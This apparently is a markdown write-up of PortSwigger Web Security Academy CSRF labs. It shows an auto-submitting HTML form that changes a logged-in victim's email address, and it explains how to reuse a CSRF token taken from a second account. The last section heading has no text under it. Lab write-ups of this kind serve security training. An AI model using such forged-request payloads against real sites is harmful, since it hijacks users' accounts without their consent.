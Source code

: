 # Cross-site request forgery (CSRF)

Check detail at [here](https://portswigger.net/web-security/csrf)

Type of attack in this example
 - [A relevant action](#a-relevant-action)
 - [Cookie-based session handling](#cookie-based-session-handling)
 - [No unpredictable request parameters](#no-unpredictable-request-parameters)

## A relevant action

[Lab 1](https://portswigger.net/web-security/csrf/lab-no-defenses)

Description of this lab: craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server, we can log in with credentials: `wiener:peter` and this lab's email change functionality is vulnerable to CSRF

We found that when we log in successfully, this has email change field that we can exploit. Moreover, there is an exploit server in this lab, use this HTML in body field

```html
    <form action="https://0a4d00870370bbf4c1d27dfb00060001.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;example&#46;com">
    </form>
    <script>
      document.forms[0].submit();
    </script>
```

Clicking store button, then verifying that the exploit works, clicking "View exploit" and check the resulting HTTP request and response. Clicking "Deliver to victim" to solve the lab.

## Cookie-based session handling

[Lab 4](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)

Description of this lab: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address, and two accounts on the application that you can use to help design your attack `wiener:peter; carlos:montoya`

Note: This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

We will need 2 browsers for this lab:
 - Browser 1: log in with `carlos:montoya` and change email, website will generate valid token in payload, like this `email=demo%40demo.demo&csrf=WTvWupXdfWayFeCnkI61Wjz40gY3GaVf`. However, every token can use only one time, drop request change email with burp intercept. Check the code, and we can see that:

 ```html
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required="" type="email" name="email" value="">
        <input required="" type="hidden" name="csrf" value="WTvWupXdfWayFeCnkI61Wjz40gY3GaVf">
        <button class="button" type="submit"> Update email </button>
    </form>
 ```

 - Browser 2: log in with `wiener:peter`, send the update email request into Burp Repeater and replace its token by token of browser 1, do the same as lab 1.


## No unpredictable request parameters

